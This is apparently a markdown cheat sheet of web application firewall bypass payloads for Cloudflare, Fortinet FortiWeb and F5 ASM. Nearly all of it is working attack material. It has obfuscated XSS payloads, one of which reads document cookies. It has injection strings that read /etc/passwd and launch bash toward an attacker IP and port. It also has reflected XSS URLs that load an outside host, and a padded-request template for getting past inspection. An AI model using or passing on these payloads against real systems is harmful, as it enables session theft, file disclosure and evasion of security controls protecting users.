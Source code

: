
## Cloudflare
### XSS Bypass
```javascript
<svg onx=() onload=(confirm)(1)>
<a+HREF='javascrip%26%239t:alert%26lpar;document.domain)'>test</a>
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
1'"><img/src/onerror=.1|alert``>
<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;\u0061\u006C\u0065\u0072\u0074&lpar;this['document']['cookie']&rpar;">X</a>`
<--`<img/src=` onerror=confirm``> --!>
javascript:{alert`0`}
<base href=//knoxss.me?
<j id=x style="-webkit-user-modify:read-write" onfocus={window.onerror=eval}throw/0/+name>H</j>#x

// RCE Payload Detection Bypass
cat$u+/etc$u/passwd$u
/bin$u/bash$u <ip> <port>
";cat+/etc/passwd+#
```

## Fortinet Fortiweb
```bash
# pcre_expression unvaidated XSS
/waf/pcre_expression/validate?redir=/success&mkey=0%22%3E%3Ciframe%20src=http://vuln-lab.com%20onload=alert%28%22VL%22%29%20%3C
/waf/pcre_expression/validate?redir=/success%20%22%3E%3Ciframe%20src=http://vuln-lab.com%20onload=alert%28%22VL%22%29%20%3C&mkey=0

# CSP Bypass
# POST Type Query
POST /<path>/login-app.aspx HTTP/1.1
Host: <host>
User-Agent: <any valid user agent string>
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: <the content length must be at least 2399 bytes>

var1=datavar1&var2=datavar12&pad=<random data to complete at least 2399 bytes>

# GET Type Query
http://<domain>/path?var1=vardata1&var2=vardata2&pad=<large arbitrary data>

```

## F5 ASM
```javascript
# XSS Bypass
<table background="javascript:alert(1)"></table>
"/><marquee onfinish=confirm(123)>a</marquee>
```
